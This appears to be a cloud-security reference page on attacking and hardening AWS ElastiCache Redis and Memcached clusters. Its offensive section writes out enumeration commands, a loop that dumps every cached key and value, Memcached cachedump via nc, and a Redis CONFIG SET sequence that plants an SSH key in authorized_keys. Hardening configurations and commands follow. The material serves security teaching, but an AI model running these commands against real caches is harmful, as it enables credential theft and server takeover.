

AWS ElastiCache Security
IN-MEMORY CACHE
ElastiCache provides managed Redis and Memcached. Often stores session tokens, API keys, and cached credentials. Historically deployed without authentication - a goldmine for attackers.

ElastiCache provides managed Redis and Memcached. Often stores session tokens, API keys, and cached credentials. Historically deployed without authentication - a goldmine for attackers.
In-memory data structure store supporting strings, hashes, lists, sets. Supports AUTH command, ACLs (Redis 6+), and encryption. Often stores sessions, rate limits, and cached API responses.
Simple key-value cache with no built-in authentication. Relies entirely on network security. Often stores serialized objects that may contain credentials or sensitive data.
ElastiCache instances often contain session tokens, API keys, cached credentials, and user data. Legacy deployments without AUTH are common. Network access = full data access in most cases.
aws elasticache describe-cache-clustersaws elasticache describe-replication-groupsaws elasticache describe-cache-clusters \\
--show-cache-node-info \\
--query 'CacheClusters[].CacheNodes[].Endpoint'aws elasticache describe-cache-clusters \\
--query 'CacheClusters[].SecurityGroups'aws elasticache describe-replication-groups \\
--query 'ReplicationGroups[].AuthTokenEnabled'redis-cli -h my-cache.xxxxx.use1.cache.amazonaws.com -p 6379redis-cli -h my-cache.xxxxx.use1.cache.amazonaws.com -p 6379 \\
--tls -a 'AUTH_TOKEN'redis-cli -h HOST KEYS '*' | while read key; do
echo "=== $key ==="
redis-cli -h HOST GET "$key"
donetelnet my-cache.xxxxx.cfg.use1.cache.amazonaws.com 11211echo "stats cachedump 1 100" | nc HOST 11211
# Then: echo "get <key>" | nc HOST 11211redis-cli -h HOST
> CONFIG SET dir /var/lib/redis/.ssh
> CONFIG SET dbfilename authorized_keys
> SET pwn "\
\
ssh-rsa AAAA...\
\
"
> SAVE# Cluster Config
AuthTokenEnabled: false
TransitEncryptionEnabled: false
AtRestEncryptionEnabled: false
# Security Group
Inbound: 0.0.0.0/0:6379 (ALLOW)No authentication, no encryption, accessible from anywhere - fully compromised
# Cluster Config
AuthTokenEnabled: true
TransitEncryptionEnabled: true
AtRestEncryptionEnabled: true
KmsKeyId: arn:aws:kms:...:key/xxx
# Security Group
Inbound: sg-app-servers:6379 (ALLOW)AUTH required, TLS enabled, KMS encryption, restricted to app security group
# Security Group
Inbound: 10.0.0.0/8:6379 (ALLOW)
# Allows entire corporate network
# Subnet
SubnetType: Private
# But VPC peering allows accessToo broad network access - any compromised instance can reach cache
# Redis ACL Configuration
user app-reader on >password ~session:* +get +mget
user app-writer on >password ~cache:* +set +get +del
user admin on >strongpass ~* +@all
# Default user disabled
user default offGranular ACLs with least privilege per application role
Always configure AUTH token. Use strong, rotated passwords.
aws elasticache modify-replication-group \\
--replication-group-id my-group \\
--auth-token 'NewStrongToken123!' \\
--auth-token-update-strategy ROTATEEnable in-transit encryption for all connections.
aws elasticache modify-replication-group \\
--replication-group-id my-group \\
--transit-encryption-enabledEncrypt data at rest with KMS keys.
aws elasticache create-replication-group \\
--at-rest-encryption-enabled \\
--kms-key-id arn:aws:kms:...:key/xxxOnly allow connections from specific application security groups.
Implement granular access control with user-based permissions.
Since no data plane CloudTrail, use flow logs to detect unusual access.